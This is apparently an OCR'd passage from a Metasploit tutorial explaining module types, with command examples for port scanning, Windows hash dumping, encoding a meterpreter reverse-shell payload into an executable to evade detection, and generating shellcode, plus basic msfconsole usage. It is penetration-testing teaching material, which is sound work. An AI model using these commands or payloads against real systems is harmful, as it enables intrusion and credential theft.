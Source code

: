 - **Auxiliary:** Auxiliary modules include scanners, fuzzers, and other tools that assist in various penetration testing tasks.

```
use auxiliary/scanner/portscan/tcp
set RHOSTS <target_ip_range>
set THREADS 10
run
```

- **Post:** Post-exploitation modules are used after a successful exploit to gather more information, escalate privileges, or maintain access.

```
use post/windows/gather/hashdump
set SESSION <session_id>
run
```

- **Encoders:** Encoders are used to encode payloads in an attempt to evade detection by security mechanisms.

```
use encoder/x86/shikata_ga_nai
set PAYLOAD windows/meterpreter/reverse_tcp
generate -f exe -o payload.exe
```

- **NOPs:** NOP (No Operation) modules create NOP sleds, which can help in buffer overflow exploits.

```
use payload/generic/shell_bind_tcp
set NOP 16
generate -f raw -o shellcode.bin
```

- **pattern_create and pattern_offset:** These tools are used to create and analyze patterns for identifying buffer overflow offsets.

```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 200
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q <EIP_value>
```

# Commands and Usage

#### Basic Commands 

Starting msfconsole

```
Attack:~$ msfconsole
```

Running msfconsole without Banner

```
msfconsole -q
```
